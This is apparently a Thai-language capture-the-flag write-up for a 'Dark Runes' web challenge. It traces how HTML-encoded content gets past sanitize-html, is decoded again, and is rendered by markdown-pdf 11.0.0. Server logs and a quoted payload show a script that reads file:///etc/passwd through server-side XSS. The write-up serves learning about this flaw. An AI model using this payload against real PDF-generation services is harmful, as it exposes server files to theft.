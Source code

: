 



## ช่องโหว่ที่พบจากใน package.json:

**1. markdown-pdf (11.0.0) - มีช่องโหว่ร้แรง**
- เวอร์ชันนี้มีช่องโหว่ด้าน Command Injection และ Path Traversal
- สามารถถูกใช้เพื่อ execute arbitrary commands ได้
- แนะนำ: หลีกเลี่ยงการใช้หรือเปลี่ยนไปใช้ library อื่น

**2. ejs (^3.1.10)**
- มีช่องโหว่ด้าน Remote Code Execution (RCE) 
- แนะนำ: อัปเดตเป็น 3.1.11 หรือใหม่กว่า

**3. sanitize-html (^2.12.0)**
- อาจมีช่องโหว่ bypass ใน HTML sanitization
- แนะนำ: อัปเดตเป็นเวอร์ชันล่าสุด

```
เนื่องจาก flag ไม่ได้ถูกเรียกที่ไหนเลย เพื่อ execute arbitrary commands ช่อง โหว่ของ  markdown-pdf (11.0.0) ตอบโจทย์มาก
```

![alt text](image.png)


```
การทำงานของ Dark Runes web application 
---สร้าง document ที่มี sanitizer html เก็บไว้ใน database
---export เป็น pdf file
```
https://www.npmjs.com/package/sanitize-html


สวัสดีครับ! เอกสารที่คุณให้มาเป็นคู่มือการใช้งาน **sanitize-html** ซึ่งเป็น JavaScript library ที่ใช้สำหรับทำความสะอาด HTML เพื่อป้องกันการโจมตีแบบ XSS และกรอง HTML ที่ไม่ต้องการออก

## สรุปสั้น ๆ

**sanitize-html** เป็นเครื่องมือที่ช่วยให้คุณสามารถ:
- กรอง HTML tags และ attributes ที่อนุญาต
- ลบ JavaScript และโค้ดที่อันตรายออก
- ทำความสะอาด HTML ที่มาจาก rich text editors
- ป้องกันการโจมตีแบบ XSS

## การใช้งานพื้นฐาน

```javascript
import sanitizeHtml from 'sanitize-html';

// ใช้งานแบบ default
const clean = sanitizeHtml('<p>Hello <script>alert("hack")</script>World</p>');
// ผลลัพธ์: '<p>Hello World</p>'

// กำหนดเงื่อนไขเอง
const clean = sanitizeHtml(dirtyHtml, {
  allowedTags: ['p', 'b', 'i', 'em', 'strong', 'a'],
  allowedAttributes: {
    'a': ['href']
  }
});
```



## การ Escape อัตโนมัติ

sanitize-html จะทำการ **escape** เครื่องหมาย `&` และตัวอักษรพิเศษอื่น ๆ อัตโนมัติ:

```javascript
const input = 'AT&T company & others';
const clean = sanitizeHtml(input);
// ผลลัพธ์: 'AT&amp;T company &amp; others'
```

## HTML Entities ที่ได้รับการจัดการ

| ตัวอักษร | จะกลายเป็น | ความหมาย |
|---------|------------|----------|
| `&` | `&amp;` | Ampersand |
| `<` | `&lt;` | Less than |
| `>` | `&gt;` | Greater than |
| `"` | `&quot;` | Quotation mark (ใน attributes) |


## HTML Entities ที่มีอยู่แล้ว

หาก input มี HTML entities อยู่แล้ว sanitize-html จะจัดการให้ถูกต้อง:

```javascript
// Input ที่มี entities อยู่แล้ว
const input = 'AT&amp;T &lt;company&gt;';
const clean = sanitizeHtml(input);
// ผลลัพธ์: 'AT&amp;T &lt;company&gt;' (ไม่ double-escape)
```

```
> dark-runes@1337.0.0 start
> node src/index.js

New access pass generated: 7137
Server started on port 3000
Document found: {
  id: 1,
  user_id: 1,
  content: '&lt;img src=#&gt;',
  integrity: '89d5cf21dd7b1b4962f35d9ac95dc8d0105588602918fc2d238d0d2b5fad224a'
}
content <img src=#>
Document found: {
  id: 2,
  user_id: 1,
  content: '',
  integrity: '00bb98bbc4031633b2e27990a0886819894be4d1d89fb0e558fade7fe9876031'
}
content
Document found: {
  id: 3,
  user_id: 1,
  content: '<a>hi</a>',
  integrity: 'b2a78ee75421b0428ce857794420944c8ca69fd05a06ac790738d0984fef6e32'
}
content hi
Document found: {
  id: 4,
  user_id: 1,
  content: '&lt;script&gt;document.write(window.location);xhr=new XMLHttpRequest;xhr.onload=function(){document.write((this.responseText))};xhr.open("GET","file:///etc/passwd");xhr.send();&lt;/script&gt;',
  integrity: 'c8bd775b9970f0f2bde4fbbf6a735c5964b8c6567f726327313fc5a9d3891f71'
}
content <script>document.write(window.location);xhr=new XMLHttpRequest;xhr.onload=function(){document.write((this.responseText))};xhr.open("GET","file:///etc/passwd");xhr.send();</script>
```

เมื่อลองใช้ script tag จะถูกลบข้อความทั้งหมดแล้วจะเก็บ''เข้า database มีเพียง tag ที่ allow ในโจทย์คือ a tag และ document ที่ html encode แล้ว

![alt text](image-1.png)

markdown-pdf 11.0.0 - Local File Read via Server Side XSS

https://fluidattacks.com/pt/advisories/relsb

```
content=<script>document.write(window.location);xhr=new XMLHttpRequest;xhr.onload=function(){document.write((this.responseText))};xhr.open("GET","file:///etc/passwd");xhr.send();</script>

```

![alt text](image-2.png)

## SUMMARY

sanitize-html ทำงานได้ปกติตาม config เพียงแต่ `const content = nhm.translate(document.content);` จะ html decode content ที่อยู่ใน database กลับเป็น html tag 

ซึ่ง `const generatedPDF = await generatePDF(content);` จะอ่าน html tag payload ทำให้เกิด Local File Read via Server Side XSS


![alt text](image-3.png)